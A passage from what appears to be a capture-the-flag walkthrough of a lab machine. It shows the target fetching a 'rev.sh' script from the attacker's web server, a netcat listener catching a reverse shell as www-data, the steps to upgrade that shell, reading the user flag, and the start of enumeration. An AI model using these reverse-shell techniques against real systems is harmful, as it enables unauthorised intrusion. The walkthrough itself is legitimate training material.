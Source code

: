     
    
    172.30.0.1 - - [02/Aug/2021 20:51:35] "GET /rev.sh HTTP/1.1" 200 -
    

And then a reverse shell at `nc`:

    
    
    oxdf@parrot$ nc -lnvp 443
    listening on [any] 443 ...
    connect to [172.30.0.9] from (UNKNOWN) [172.30.0.1] 47032
    bash: cannot set terminal process group (39): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@web:/var/www/html$ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    

I’ll upgrade my shell:

    
    
    www-data@web:/var/www/html$ script /dev/null -c bash
    script /dev/null -c bash
    Script started, file is /dev/null
    www-data@web:/var/www/html$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@parrot$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    www-data@web:/var/www/html$ 
    

The user flag is in `/home`:

    
    
    www-data@web:/home$ ls
    user.txt  www-data
    www-data@web:/home$ cat user.txt
    cc0563a9************************
    

## Shell as www-data on pki

### Enumeration

#### web

There’s not a ton on web. It feels like a Docker container. There’s a
`/entry.sh` file that starts SSH and Apache:

    
    
    #!/bin/bash
    service ssh restart
    service apache2 restart && tail -f /var/log/apache2/error.log
    
